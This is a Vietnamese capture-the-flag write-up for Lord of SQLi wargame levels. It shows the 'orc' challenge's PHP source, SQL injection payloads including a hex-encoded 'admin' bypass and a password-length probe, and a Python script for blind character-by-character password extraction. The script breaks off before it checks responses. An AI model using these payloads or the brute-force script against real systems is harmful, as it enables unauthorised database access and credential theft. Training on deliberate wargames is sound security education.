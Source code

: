Bởi vì no=int nên ta có thể không cần '&#x20;

payload :  no=1 or id= ????

Ở đây không xài được admin thông thường mà ta sẽ hex(admin) = 0x61646D696E

Payload: `no=1 or id= 0x61646D696E`

## ORC

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

Đọc code ta thấy Hàm **addslashes()** dùng để thêm một dấu gạch chéo ngược (\\) phía trước các ký tự là dấu nháy kép, dấu nháy đơn và dấu gạch chéo ngược trong chuỗi.

Để sovle được câu này ta phải có password của admin vì vậy cách làm sẽ là brute force pw

Đầu tiên ta sẽ dùng burp kiểm tra độ dài của pass `?pw=' or 1=1 and length(pw)=?`&#x20;

![](<.gitbook/assets/image (1) (1).png>)

Ta thấy lúc này pw có độ dài là 9. Viết payload

```python
import requests
import string
# len pw = 9
url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
char = string.printable
cookie = {'Cookie':'PHPSESSID=7ih6g2u8u6tdme1u61etcjhgb7'}
password =''
session = requests.session()
for i in range(1,10):
    for j in char:
        pass_1 = password + j
        print(pass_1)
        param = "pw= 'or 1=1 and substring(pw,1,{}) = '{}'-- -".format(i,pass_1)
        r = session.get(url , params = param , headers = cookie)
```